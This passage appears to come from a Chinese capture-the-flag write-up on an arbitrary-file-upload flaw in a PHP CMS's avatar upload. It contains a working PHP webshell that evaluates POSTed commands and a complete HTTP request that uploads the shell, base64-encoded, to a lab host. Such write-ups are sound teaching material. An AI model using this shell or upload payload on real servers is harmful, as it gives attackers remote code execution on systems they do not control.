 ```php
                }
            } else {

                exit(dr_json(0, '图片字符串不规范'));
            }
        } else {
            exit(dr_json(0, '图片不存在'));
        }

// 上传图片到服务器
        if (defined('UCSSO_API')) {
            $rt = ucsso_avatar($this->uid, file_get_contents($dir.'90x90.jpg'));
            !$rt['code'] && $this->_json(0, fc_lang('通信:失败 %s', $rt['msg']));
        }


        exit('1');
    }
```

发现 `upload` 函数中并未对上传的文件进行内容检查, 直接将上传的文件存储到 `${SYS_UPLOAD_PATH}/member/${uid}/` 目录下, 这就意味着可以上传任意文件.
并且上传的文件名是 `0x0.${result[2]}`, 这就意味着我们可以通过控制 `data` 的内容, 来控制文件的扩展名.

首先上传一个普通 `.jpg` 图片. 检查网页发现 avatar 链接为: <http://.../uploadfile/member/1/45x45.jpeg>

制作一个 PHP 木马:

```php
<?php
@phpinfo();
@eval($_POST['cmd']);
?>
```

将文件命名为 `avatar.png` 从而欺骗前端, 使其认为我们上传的是一个图片文件.

使用 BurpSuite 拦截图片上传请求, payload 如下:

```http
POST /index.php?s=member&c=account&m=upload&iajax=1 HTTP/1.1
Host: 9841f19f-50d8-4b1a-a45c-28ea2bc57ce4.1.2024.thudart.com
Content-Length: 99
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Origin: http://9841f19f-50d8-4b1a-a45c-28ea2bc57ce4.1.2024.thudart.com
Referer: http://9841f19f-50d8-4b1a-a45c-28ea2bc57ce4.1.2024.thudart.com/index.php?s=member&c=account&m=avatar
Accept-Encoding: gzip, deflate, br
Cookie: 24b16fede9a67c9251d3e7c7161c83ac_ci_session=mcfhqflupgcv4qlnddi573c41p5a7ddu; member_uid=1; member_cookie=2db4367e75f3b482d301
Connection: keep-alive

tx=data%3Aimage%2Fpng%3Bbase64%2CPD9waHAKQHBocGluZm8oKTsKQGV2YWwoJF9QT1NUWydjbWQnXSk7Cj8%2BCg%3D%3D
```
